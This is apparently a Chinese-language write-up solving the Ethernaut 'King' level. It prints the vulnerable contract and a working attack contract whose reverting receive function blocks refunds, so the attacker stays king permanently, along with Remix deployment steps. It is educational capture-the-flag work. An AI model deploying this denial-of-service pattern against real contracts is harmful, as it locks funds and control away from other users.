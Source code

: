 # level9 king

# 1. 问题

要求你成为`King`合约的owner，切别的合约无法替代你成为owner。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

# 2. 解法

整体的思路分为2步：

1. 首先给`King`合约转入eth，触发其receive函数逻辑执行，使自己成为owner
2. 使破坏receive()正常执行，使得其他合约或EOA触发`King`的receive函数执行时都失败，从而避免别人成为owner

为了实现这个功能，我们将合约设计如下：

```solidity
contract UnchangedKing {
    address private king;

    constructor(address _k) {
        king = _k;
    }

    function overtake() external payable {
        // console.log("start overtake, msg.value:", msg.value);
        // console.log("start overtake, gasleft  :", gasleft());
        // case1: 可行
        (bool success,) = king.call{value: 0.001 ether}("");
        // 这样会出错，gas是为了后面支付合约执行使用的, 真实值会远大于 msg.value, 而且不是一个维度的东西
        // (bool success, ) = king.call{value: gasleft() * 19 /20}("");
        require(success, "send eth failed");
    }

    receive() external payable {
        revert("No direct ETH transfers allowed");
        // 下面这种写法是不行的。因为owner可以transfer(0)给当前合约，导致下面这个判断不生效
        // require(msg.value < 1, "reject be overtaken!");
    }
}
```

1. 代码部署到remix，编译

2. 部署，参数填上合约地址 
   * 注意合约初始化的参数要填instance的地址，不要填错橙了level的地址了

3. 先查询下浏览器，看下合约目前有多少eth, 发现是1 finney

4. 调用overtake函数，就传入1 finney 

5. submit instance，通过！


# 3. 补充阅读：调试

开始的时候，我们采用了`require(msg.value < 1, "reject be overtaken!");`的写法，发现不能通过，所以便携了一个调试程序[Level9_localTest.t.sol](../../test/level9/Level9_localTest.t.sol), 可以在项目根目录执行下面命令调试运行：

```bash
forge test -vvvv --match-contract Level9LocalTest
```
